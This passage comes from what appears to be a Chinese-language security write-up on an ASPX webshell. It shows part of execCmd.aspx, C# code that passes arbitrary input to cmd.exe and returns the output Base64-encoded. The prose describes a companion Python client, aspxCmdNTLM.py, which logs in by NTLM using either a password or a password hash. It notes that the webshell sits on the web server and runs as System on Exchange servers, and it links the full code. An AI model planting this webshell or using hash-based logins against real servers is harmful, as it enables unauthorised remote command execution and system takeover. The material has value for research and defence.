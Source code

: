 ```
        byte[] enbytes = Encoding.Default.GetBytes(outstr1);
        string outstr2 = Convert.ToBase64String(enbytes);
        Response.Write(outstr2);
    }

    private string ExecuteCommand(string command)
    {
        try
        {
            ProcessStartInfo processStartInfo = new ProcessStartInfo();
            processStartInfo.FileName = "cmd.exe";
            processStartInfo.Arguments = "/c " + command;
            processStartInfo.RedirectStandardOutput = true;
            processStartInfo.UseShellExecute = false;
            Process process = Process.Start(processStartInfo);
            using (StreamReader streamReader = process.StandardOutput)
            {
                string ret = streamReader.ReadToEnd();
                return ret;
            }
        }
        catch (Exception ex)
        {
            return ex.ToString();
        }
    }
</script>
```

### 2.aspxCmdNTLM.py

NTLM认证的实现可以参考之前的代码：

https://github.com/3gstudent/Homework-of-Python/blob/master/checkEWS.py

支持明文和用户口令hash两种登录方式

Form表单请求通过POST方式发送

Base64编码和解码需要注意字符串的格式

完整的代码已上传至github，地址如下：

https://github.com/3gstudent/Homework-of-Python/blob/master/aspxCmdNTLM.py

execCmd.aspx需要保存在Web服务器

aspxCmdNTLM.py在命令行下执行，连接[execCmd.aspx](https://github.com/3gstudent/test/blob/master/execCmd.aspx)执行cmd命令并获得返回结果

aspxCmdNTLM.py支持明文和用户口令hash两种登录方式

对于Exchange服务器，对应的Webshell权限为System

如下图
